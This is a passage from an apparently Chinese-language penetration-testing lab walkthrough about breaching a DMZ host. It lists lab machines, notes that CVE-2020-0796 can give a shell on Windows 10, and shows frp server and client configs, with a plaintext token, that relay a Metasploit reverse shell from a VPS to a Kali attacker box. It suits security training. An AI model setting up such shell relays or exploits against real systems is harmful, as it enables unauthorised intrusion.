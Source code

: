 > 环境说明：
>
> DMZ 主机可以是 Win 也可以是 Linux。区别在于 win10 可以通过 CVE-2020-0796 永恒之黑获取 shell，Linux 则推荐生成 payload 直接运行

| 实例                                         | 描述                                                         |
| -------------------------------------------- | ------------------------------------------------------------ |
| Kali<br/>192.168.1.53                        | 桥接模式<br />192.168.1.24                                   |
| Vps<br />39.105.143.115                      | 123.56.167.168                                               |
| CentOS<br />192.168.1.63<br />192.168.110.63 | 桥接模式<br />192.168.6.76<br />仅主机模式<br />192.168.4.76 |
| Windows<br />192.168.110.57                  | 仅主机模式<br />192.168.4.103                                |

> Centos 映射 socks5 代理到 VPS：9999 端口使 Kali（攻击者）可访问内网 4 网段

## 6.1 入侵 DMZ

配置 frp 服务端

```
[root@AliVPS frp_0.49.0_linux_amd64]# vim frps.ini
```

```
[common]
bind_port = 7000
authentication_method = token
token = tN[,n|:A4vVT:CexOk_6
```

启动服务端

```
[root@AliVPS frp_0.49.0_linux_amd64]# ./frps -c frps.ini
```

配置 kali-frp 客户端，用于接收 shell

```
┌──(root㉿Kali-24)-[~/frp_0.49.0_linux_amd64]
└─# vim frpc.ini
```

```
[common]
server_addr = 123.56.167.168
server_port = 7000
token = tN[,n|:A4vVT:CexOk_6

[msf]
type = tcp
local_port = 4444
local_ip = 192.168.6.24
remote_port = 8000
```

启动客户端
